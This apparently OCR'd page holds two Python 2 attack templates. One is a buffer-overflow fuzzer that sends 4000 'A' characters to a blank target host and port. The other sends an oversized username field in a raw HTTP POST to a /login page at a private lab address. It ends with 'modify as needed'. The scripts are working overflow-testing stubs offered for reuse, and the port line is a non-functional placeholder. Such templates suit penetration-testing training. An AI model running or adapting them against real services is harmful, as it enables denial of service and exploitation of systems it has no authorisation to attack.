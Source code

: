 // BUFFER OVERFLOW FUZZING SCRIPT
#!/usr/bin/python
import socket
RHOST = ""
RPORT = ####
buf = "A" * 4000
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
print "Sending buf"
s.send(buf + '\n')

// BUFFER OVERFLOW OVER HTTP SCRIPT
excerpt 

		content = "username=" + inputBuffer + "&password=A"

		buffer = "POST /login HTTP/1.1\r\n"
		buffer += "Host: 192.168.139.10\r\n"
		buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
		buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buffer += "Accept-Language: en-US,en;q=0.5\r\n"
		buffer += "Referer: http://192.168.139.10/login\r\n"
		buffer += "Connection: close\r\n"
		buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
		buffer += "Content-Length:  "+str(len(content))+"\r\n"
		buffer += "\r\n"

		buffer += content

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

		s.connect(("192.168.139.10", 80))
		s.send(buffer)

		s.close()

modify as needed